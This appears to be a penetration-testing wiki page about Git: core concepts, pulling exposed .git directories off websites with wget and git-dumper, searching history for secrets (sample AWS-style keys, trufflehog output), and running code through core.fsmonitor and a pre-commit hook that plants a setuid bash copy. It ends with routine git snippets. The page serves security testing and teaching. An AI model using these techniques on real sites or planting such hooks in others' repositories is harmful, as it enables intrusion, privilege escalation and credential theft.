 ```yaml
---
description: >-
  A version control system often saving lots of information about how files were
  changes
---
```


# Git

## Description

Git is a version control system that allows you to save the state of files. It is often used with source code and published on [Github](https://github.com/). There are a few keywords that Git uses you need to know to understand the terminology:

* **Repositories**: The entirety of your git system, with the files, history, and information. Can be created using `git init`
* **Commits**: "Save states" of the files in your repository. Whenever you change something and you are happy with the change, you can commit it so it's saved as a snapshot that you can later go back to. Can be created using `git commit -m "message"`
* **Branches**: Parallel to your main repository, branches are sidesteps to slowly work on a new feature for example, and then later in time **merge** it into the main branch. Can be created using `git checkout -b newfeature`

All the information about your Git repository gets saved in a `.git` directory that is at the root of your repository. The `git` command interacts with this directory and lots of tools can get information from it. So if you ever find a `.git` directory you'll know the current directory is a Git repository.&#x20;

To find everything in a repository without having to think of every command, you can use a tool like [GitKraken](https://www.gitkraken.com/) to explore the repository visually. Just open the directory in that tool and you can see a timeline of what commits and branches were made.&#x20;

## Finding Git on websites

In some cases, you'll find that the website you're testing uses Git by finding a `.git` directory. Normally this should be hidden by a 403 Forbidden for example, but this is not always the case. Sometimes you can see a list of files, or you can directly access `.git/HEAD` instead.&#x20;

### Web - Directory Listing

When you visit the `.git` directory on the website, and you can see a list of files relating to git, you know that directory listing is on. This makes it really easy to download everything at once recursively and then examine the repository on your own machine.&#x20;

```shell-session
$ wget -r http://example.com/.git
```

#### Git-dumper

When a website disables directory listing, but the `.git` directory can still be found with something like `.git/HEAD`, you might be able to use [git-dumper](https://github.com/arthaud/git-dumper) on it to extract all the files without having the need for directory listing. This tool understands the Git file structure and can find all the related files:

{% embed url="https://github.com/arthaud/git-dumper" %}
A tool to dump a git repository to your local machine, without needing directory listing
{% endembed %}

```shell-session
$ pip install git-dumper
$ git-dumper http://example.com/.git git/
```

Then use the source code to perform more targeted attacks, or look for secrets, even in history:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ git log -p  # Show commits with diffs
</strong>...
+++ b/secret.py
@@ -0,0 +1,85 @@
+access_key_id = "AKIA6CFMOGSLALOPETMB"
+secret_access_key = "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"
+region = "us-east-2"
...
<strong>$ git branch -a  # List all branches
</strong>* master
  development
</code></pre>

The [`trufflehog`](https://github.com/trufflesecurity/trufflehog) tool can also be useful for large repositories where manually searching would take too long. It has a few built-in formats for credentials like private keys or AWS secrets. Run it locally on a cloned repository like this:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ trufflehog git file://.
</strong>Found unverified result 🐷🔑❓
Detector Type: PrivateKey
Raw result: -----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----
Line: 1
Commit: cb137d3139ab74d7ef5c4460f41c95d89fe3e514
File: id_rsa
Email: root@example.com
# # Or on a remote GitHub URL
<strong>$ trufflehog git https://github.com/trufflesecurity/test_keys
</strong># # Check out GitHub README for more examples
</code></pre>

## Attacking Git Commands (RCE)

Git is a very flexible system, allowing many settings to be changed to decide how CLI tools interact with the repository. These configuration variables can allow executing arbitrary commands however when certain git commands are executed. The `core.fsmonitor` variable in `.git/config` is a common one that can be set to a bash command to execute:

{% code title=".git/config" %}
```diff
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
+       fsmonitor = "id | tee /tmp/pwned > /dev/tty"
```
{% endcode %}

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ git status
</strong>uid=1001(user) gid=1001(user) groups=1001(user)
...
</code></pre>

Many shell extensions like [Starship](https://github.com/starship/starship/issues/3974) use `git` to get the current repository and are vulnerable to this, as well as [Visual Studio Code](https://www.sonarsource.com/blog/securing-developer-tools-git-integrations/#example-of-affected-ide-visual-studio-code) (now only with Trusted Mode). To find such issues, you can create a malicious repository with as many landmines as possible that trigger on different commands. This creates an empty repository with most known ways to execute commands:

{% embed url="https://github.com/jwilk/git-landmine" %}
Create a repository with `.git/config` and `hooks` GIT landmines (`lib/payload` = payload)
{% endembed %}

### Git Hooks

There is another feature called "hooks" that allow you to run bash scripts when a certain action happens with the repository. When a `git commit` is executed, for example, the `pre-commit` hook gets triggered. If you can write these hooks you can let whoever runs the `git commit` execute arbitrary commands.&#x20;

You can find these hooks in the `.git/hooks` directory. If you are able to write a `pre-commit` file here, you can put any executable file in its place and it will be run on commit:

{% code title=".git/hooks/pre-commit" %}
```bash
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +xs /tmp/bash
```
{% endcode %}

Then just make sure the file is actually executable with `chmod`:

```shell-session
$ chmod +x pre-commit
```

## Git Snippets

If you're running a git repository, you might need some complicated actions from time to time. This is a collection of some common actions as commands to quickly copy and paste.&#x20;

{% code title="Push to remote origin" %}
```shell-session
$ git remote add origin https://github.com/[username]/[repository].git
$ git branch -M main  # Switch to main branch for GitHub
$ git push --set-upstream origin main  # Set the default upstream

$ git push  # From now on, you can just push
```
{% endcode %}

{% code title="Reset all commits" %}
```shell-session
$ rm -rf .git
$ git init
$ git commit -m "Initial commit"
$ git push --force  # Force to overwrite existing remote
```
{% endcode %}

{% code title="Undo last commit" %}
```shell-session
# # If not pushed yet
$ git reset --soft HEAD~
# # If already pushed
$ git reset HEAD~  # Use --hard to also throw away the changes in the commit
$ git push --force
```
{% endcode %}

{% code title="Create and push tag" %}
```shell-session
$ git tag 0.1.0
$ git push origin --tags  # Push all tags
# # More info: https://stackoverflow.com/a/18223354/10508498
```
{% endcode %}

